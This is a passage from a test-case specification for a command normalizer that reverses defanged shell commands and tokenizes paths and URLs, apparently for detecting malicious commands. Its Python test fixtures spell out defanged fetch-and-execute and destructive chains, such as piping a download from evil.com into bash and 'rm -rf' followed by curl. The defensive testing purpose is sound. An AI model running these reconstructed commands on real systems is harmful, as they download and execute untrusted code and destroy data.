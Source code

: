 **Test Code**:
```python
def test_paths_with_equals_prefix(normalizer: DefangingAwareNormalizer) -> None:
    """Verify path extraction after = operator."""
    test_cases = [
        ("dd if=/dev/zero", "dd if=[PATH:2]"),
        ("dd of=/tmp/output", "dd of=[PATH:2]"),
        ("cmd --config=/etc/app.conf", "cmd --config=[PATH:2]"),
    ]
    for input_cmd, expected in test_cases:
        assert normalizer.normalize(input_cmd) == expected
```

**Related Test**: `test_semantic_normalization_paths()` line 164

---

### 5. Multiple Defanging Markers in Single Command

**Category**: Pattern Combination
**Priority**: P0 - Critical

**Input**: `cxrl hxxp://evil.com [PIPE] bxsh script.sh`

**Expected Output**: `curl [URL] | bash script.sh`

**Challenge**: Multiple defanging patterns in single command must be reversed in correct order. URL scheme reversal → command name reversal → operator reversal must produce consistent results.

**Rationale**: Real malware commands are complex chains involving multiple operators, commands, and URLs. Normalizer must handle all combinations without pattern interference.

**Implementation Detail**: `_reverse_defanging()` applies patterns in specific order:
1. Risk prefix removal (`[defang:dangerous]`)
2. URL schemes (hxxp, hxxps, fxp, etc.)
3. Command names (cxrl, bxsh, rx, etc.)
4. Operators ([PIPE], [AND], [OR], etc.)
5. Subshell markers ([SUBSHELL]...[SUBSHELL])
6. Backtick markers ([BACKTICK]...[BACKTICK])

**Test Code**:
```python
def test_multiple_defanging_markers(normalizer: DefangingAwareNormalizer) -> None:
    """Verify multiple patterns in single command."""
    test_cases = [
        ("cxrl hxxp://evil.com [PIPE] bxsh", "curl [URL] | bash"),
        ("wxgt hxxps://site.com [AND] bxsh payload.sh", "wget [URL] && bash payload.sh"),
        ("rx -rf /tmp [SC] cxrl hxxp://evil.com", "rm -rf [PATH:1] ; curl [URL]"),
    ]
    for input_cmd, expected in test_cases:
        assert normalizer.normalize(input_cmd) == expected
```

**Related Test**: `test_complex_command_chains()` lines 229-252

---
